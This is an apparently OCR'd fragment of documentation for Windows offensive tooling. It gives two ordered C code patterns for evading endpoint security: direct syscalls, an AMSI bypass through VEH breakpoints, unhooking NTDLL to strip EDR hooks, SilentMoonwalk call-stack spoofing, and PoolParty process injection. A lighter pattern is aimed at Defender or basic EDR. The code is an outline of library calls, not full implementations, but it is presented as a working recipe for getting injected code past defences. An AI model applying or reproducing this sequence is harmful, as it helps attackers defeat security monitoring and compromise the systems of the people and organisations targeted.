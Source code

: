 ```c
// Step 1: Initialize syscalls (always first)
SYSCALL_CACHE syscalls;
SW3_Initialize(&syscalls);

// Step 2: Bypass AMSI (if PowerShell/CLR involved)
VEH2_CONTEXT amsi;
VEH2_Initialize(&amsi);
VEH2_EnableBreakpoint(&amsi);

// Step 3: Unhook NTDLL (remove EDR hooks)
UNHOOK_CONTEXT unhook;
PerunsFart_Initialize(&unhook);
PerunsFart_UnhookNTDLL(&unhook);

// Step 4: Initialize call stack spoofing
SPOOF_CONTEXT spoof;
SilentMoonwalk_Initialize(&spoof, SPOOF_MODE_DESYNC);
SilentMoonwalk_BuildSyntheticStack(&spoof, 3);

// Step 5: Perform operation with spoofed stack
SilentMoonwalk_CallWithSpoofedStack(&spoof, Operation, arg, ...);

// Step 6: Cleanup (reverse order)
SilentMoonwalk_Cleanup(&spoof);
PerunsFart_Cleanup(&unhook);
VEH2_Cleanup(&amsi);
SW3_Cleanup(&syscalls);
```

---

### Pattern 2: Lightweight Evasion (Defender/Basic EDR)

```c
// Step 1: Syscalls only
SYSCALL_CACHE syscalls;
SW3_Initialize(&syscalls);

// Step 2: AMSI bypass if needed
VEH2_CONTEXT amsi;
VEH2_Initialize(&amsi);
VEH2_EnableBreakpoint(&amsi);

// Step 3: Perform operation directly
PoolParty_Execute(&injection);

// Step 4: Cleanup
VEH2_Cleanup(&amsi);
SW3_Cleanup(&syscalls);
```

---
